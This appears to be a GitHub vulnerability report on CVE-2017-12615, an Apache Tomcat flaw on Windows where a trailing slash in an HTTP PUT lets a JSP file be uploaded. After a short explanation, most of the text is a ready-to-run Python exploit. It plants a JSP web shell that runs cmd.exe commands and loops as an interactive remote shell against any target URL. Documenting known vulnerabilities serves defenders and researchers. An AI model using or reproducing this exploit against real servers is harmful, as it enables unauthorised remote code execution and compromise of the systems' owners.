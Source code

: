 <div align="center"><h1>CVE-2017-12615 REPORT</h1></div>

### About the vulnerability

When running Apache Tomcat on Windows with HTTP PUTs enabled (e.g. via setting the readonly initialisation parameter of the Default to false) it was possible to upload a JSP file to the server via a specially crafted request. This JSP could then be requested and any code it contained would be executed by the server.

**On versions:** Apache Tomcat 7.0.0 to 7.0.69

**Pre-requisites:** set readonly init parameter of Default to false i.e enable HTTP PUTs.

### Explanation

Apache Tomcat should not allow upload of file files .jsp extension variants.

`PUT /evil.jsp` should give an error.

But the extension check is bypassed when a '/' is added to the end of the url.

`PUT /evil.jsp/` triggers the vulnerability.

This happens because `file()` method in `VirtualDirContext.java` does not validate the extension correctly on appending '/' to the url.

Passing any jsp code by HTTP PUTs request to the Tomcat Server, on triggering the vulnerability, would lead to RCE on the server.

### Exploit

```
#!/usr/bin/python
import requests

targetURL = input('target url\n') #Url of the the Apache Tomcat Server

def cmdshell():
    command = input('$> ') #command to run at the target
    endpoint = 'http://' + targetURL + '/payload.jsp' #Url of the the Apache Tomcat Server along with the name of the jsp filed as it should appear in servers dir
    payload = '''
    <%@ page import="java.util.*,java.io.*"%>
    <%
    String cmd = "''' + command + '''";
    Process p;
    p = Runtime.getRuntime().exec("cmd.exe /C " + cmd);
    OutputStream os = p.getOutputStream();
    InputStream in = p.getInputStream();
    DataInputStream dis = new DataInputStream(in);
    String disr = dis.readLine();
    while ( disr != null ) {
        out.println(disr);
        disr = dis.readLine();
    }
    %>
    ''' #Payload for RCE in .JSP format
    r = requests.put(endpoint+'/', data=payload) #Sending PUTs request with payload
    r = requests.get(endpoint) #For seeing the output of RCE
    print(r.content.decode("utf-8")) #decode response with UTF-8

while True:
    cmdshell()

```

This exploit was tested on Apache Tomcat 7.0.69 and allows RCE on the Apache Tomcat Server.

### Proof of Concept

[![Everything Is AWESOME](http://i.imgur.com/Ot5DWAW.png)](https://youtu.be/StTqXEQ2l-Y?t=35s "Everything Is AWESOME")
